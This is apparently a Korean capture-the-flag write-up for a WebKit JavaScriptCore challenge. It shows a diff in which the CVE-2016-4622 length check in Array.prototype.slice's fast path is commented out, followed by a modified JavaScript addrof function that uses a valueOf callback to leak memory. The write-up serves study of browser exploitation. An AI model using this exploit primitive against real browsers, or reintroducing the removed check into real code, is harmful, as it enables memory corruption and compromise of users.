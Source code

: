 ## 변경점 분석

우선 `2018년 11월 18일 버전의 Webkit 을 다운로드해서 수정했다` 라는 설명은 풀이를 위한 힌트로, 문제를 풀 때 아래 과정을 진행해야 함을 의미한다.

* Webit를 다운로드한다(git clone)
* 2018년 11월 18일 날짜의 commit을 검색한다(git log)
* 2018년 11월 18일 날짜로 소스를 변경한다(git checkout)
* 원본파일과 수정된 파일을 비교한다(diff -git)

위 순서에 따라 2018년 11월 18일자 커밋의 ArrayPrototype.cpp 파일을 얻어 diff 명령을 수행한다.  
해당 날짜의 파일명을 ArrayPrototype_ori.cpp 로 표기하였다.

* diff --git ArrayPrototype.cpp ArrayPrototype_ori.cpp

```
--- 90/ArrayPrototype.cpp	
+++ 90/ArrayPrototype_ori.cpp	
@@ -973,7 +973,7 @@
     if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
         return { };
 
-    bool okToDoFastPath = speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj) /*&& length == toLength(exec, thisObj)*/;
+    bool okToDoFastPath = speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj) && length == toLength(exec, thisObj);
     RETURN_IF_EXCEPTION(scope, { });
     if (LIKELY(okToDoFastPath)) {
         if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
@@ -1636,4 +1636,4 @@
     globalObject->arraySpeciesWatchpoint().fireAll(vm, lazyDetail);
 }
 
-} // namespace JSC
+} // namespace JSC
```

비교 결과 fastSlice 의 코드 일부를 수정했음을 확인할 수 있다. 주석 처리된 length 비교 코드는 [CVE-2016-4622 취약점 수정 커밋](https://github.com/WebKit/webkit/commit/650552a6ed7cac8aed3f53dd464341728984b82f))에서 수정된 부분이다.

덧붙여 문제의 제목이 butterfree 이므로, butterfly 취약점을 알고 있었던 사람이라면 쉽게 추측할 수 있었을 것이다.

## 버그

CVE-2016-4622 의 원본 PoC 코드를 돌려보면 정상적으로 동작하지 않는다. PoC 가 보여주는 결과처럼, 우선 Array 에서의 메모리 릭을 확인하는 것이 우선이다.

        var b = a.slice(0, hax);
        return Int64.fromDouble(b[3]);
				
프랙 문서를 참조하여, addrof() 함수 중 `a.slice(0, hax)[3]` 을 리턴하는 대신 `a.slice(0, hax)` 전체를 리턴하도록 수정하면 메모리 릭이 발생한다는 것을 확인할 수 있다.


```javascript
function addrof_modify(obj){
		var a = []; 
		for (var i = 0; i < 100; i++){
				a.push(i + 0.123);
		}; 
		var b = a.slice(0, { 
				valueOf: function() { 
						a.length = 0; 
						a = [obj]; 
						return 100; 
				}
		});
		return (b)
};

```